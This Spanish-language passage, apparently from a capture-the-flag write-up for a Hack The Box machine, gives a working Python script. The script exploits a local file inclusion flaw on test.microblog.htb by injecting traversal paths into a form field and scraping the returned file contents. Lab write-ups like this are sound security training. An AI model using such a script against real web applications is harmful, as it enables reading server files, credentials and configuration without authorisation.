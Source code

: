 Para ello voy a crear un pequeño script en Python para automatizar esta vulnerabilidad.

Se que puede estar mas resumido y me he comido mucho la cabeza pero existe un problema, y es que si se mostrase el output en forma de HTML no habría problema sin embargo se muestra dentro de un script en Javascript, por lo cual habría que usar `Selenium` por ejemplo para renderizar la página y a partir de ahí utilizar el arbol DOM generado para filtrar por el contenido.

Pero como no tengo `Selenium` y no quería instalarlo lo quería hacer con simples expresiones regulares.

Script:
```python
#!/usr/bin/python3
import requests
import signal
import re

SUBDOMAIN_URL="http://test.microblog.htb/"
URL = "http://test.microblog.htb/edit/index.php"
FILE_URL = "http://test.microblog.htb/content/order.txt"
USERNAME_COOKIE = "97vle27go9t2gt324n5dqre1n7"

def def_handler(x,y):
    print("\n[i] Saliendo...")
    exit(1)

signal.signal(signal.SIGINT, def_handler)

def set_file(file_name):
    cookies = {"username": USERNAME_COOKIE}
    data = {"id": file_name, "header": "test"}
    r = requests.post(URL, cookies=cookies, data=data)
    
def lfi(file_name):
    set_file(file_name)
    r = requests.get(FILE_URL)
    # Comprobar que el archivoe está en /content/order.txt
    if file_name in r.text:
        r = requests.get(SUBDOMAIN_URL)
        content = r.content.decode("utf-8")
        name = get_regexp(file_name)
        pos = content.find(name)
        end_pattern = "<\\/div>"
        segment = content[pos:]
        final_pos_in_segment = segment.find(end_pattern)
        final_pos = pos + final_pos_in_segment + len(end_pattern)
        print(content[pos:final_pos])
    else:
        print("[x] No se ha encontrado el archivo, revisa que no se haya borrado el blog")
        exit(1)

def get_regexp(file_name):
    file = file_name.replace("../", "")
    striped_file = file.strip("/").split("/")
    final_name = ""
    i = 0
    for s in striped_file:
        final_name += s + "\\/"
    return final_name[:-1] + "\">"
    
if __name__ == "__main__":
    while True:
        name = input("Archivo: ")
        lfi(name)
```
